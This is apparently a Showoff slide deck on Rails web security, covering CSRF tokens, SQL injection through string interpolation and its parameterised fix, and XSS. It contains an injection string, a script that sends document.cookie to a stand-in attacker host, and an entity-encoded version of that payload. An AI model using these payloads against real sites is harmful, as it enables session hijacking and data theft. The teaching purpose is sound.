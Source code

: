 !SLIDE 
# Security token
* current session
* secret string

!SLIDE 
    @@@ ruby
    protect_from_forgery secret: "123456789012345678901234567890..."

!SLIDE
# SQL injection
    @@@ ruby
    Project.where("name = '#{params[:name]}'")
    # OR 1 -- 
    SELECT * FROM projects WHERE name = '' OR 1 --'

!SLIDE
# SQL injection
    @@@ ruby
    Project.where("name = ?", params[:name])
    
!SLIDE
# XSS
    @@@ html
    <script>
      document.write('<img src="http://www.attacker.com/' + document.cookie + '">');
    </script>
!SLIDE 
# XSS 
    @@@ html
    <IMG SRC = &#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
    &#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#119;
    &#114;&#105;&#116;&#101;&#40;&#39;&#60;&#105;&#109;&#103;
    &#32;&#115;&#114;&#99;&#61;&#8221;&#104;&#116;&#116;&#112;
    &#58;&#47;&#47;&#119;&#119;&#119;&#46;&#115;&#116;&#114;
    &#111;&#110;&#97;&#45;&#97;&#116;&#97;&#107;&#117;&#106;
    &#97;&#99;&#101;&#103;&#111;&#46;&#99;&#111;&#109;&#39;
    &#32;&#43;&#32;&#100;&#111;&#99;&#117;&#109;&#101;&#110;
    &#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#32;&#43;
    &#32;&#39;&#8221;&#62;&#39;&#41;&#59;&#60;&#47;&#115;
    &#99;&#114;&#105;&#112;&#116;&#62;>
